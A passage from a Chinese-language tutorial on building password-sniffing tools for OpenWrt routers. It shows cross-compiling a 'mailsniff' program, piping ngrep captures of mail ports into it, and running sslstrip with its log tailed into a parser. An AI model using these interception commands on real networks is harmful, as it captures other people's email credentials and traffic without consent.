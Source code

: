```
gcc -o mailsniff mailsniff.c
./mailsniff.c 

```

在本地可以正常运行

而我们要编译一个在路由器上可以运行的程序，又不能给路由器安装gcc，那怎么办呢？

我们采取交叉编译在本地编译路由器中的程序：

```
./barrier_breaker/staging_dir/toolchain-mips_34kc_gcc-4.8-linaro_uClibc-0.9.33.2/bin/mips-openwrt-linux-gcc -o mailsniff mailsniff.c

```

这里的交叉编译工具链跟你的路由器芯片型号有关，需要你先选择toolchains编译make V=s后才会出现，当然你也可以从downloads.openwrt.org直接下载对应芯片型号的toolchains

如何制作软件包集成进固件在第二章介绍，此处不再赘述

0x02 数据交互：
----------

* * *

实例说明：

```
echo "1" > ${1}/sslstrip.log

```

将echo的结果写入文件（basepath从外部PHP调用传入）

```
ngrep -l -q -W byline -d $1 port 110 or 143 or 25|mailsniff

```

将ngrep的stdout接到mailsniff的stdin上（device从外部PHP调用传入）

注意：这里的ngrep -l 选项是为了使ngrep的stdout以行为单位缓冲，避免由于数据缓冲导致的数据不及时同步问题

而sslstrip本身是输出一个log文件

```
sslstrip -w ${1}/sslstrip.log -l 10000 & 
tail -f ${1}/sslstrip.log|stripsslstrip &

```

使用tail就可以实现实时输出

0x03 自动机设计：
-----------

* * *

以passsniff为例介绍C语言自动机设计：

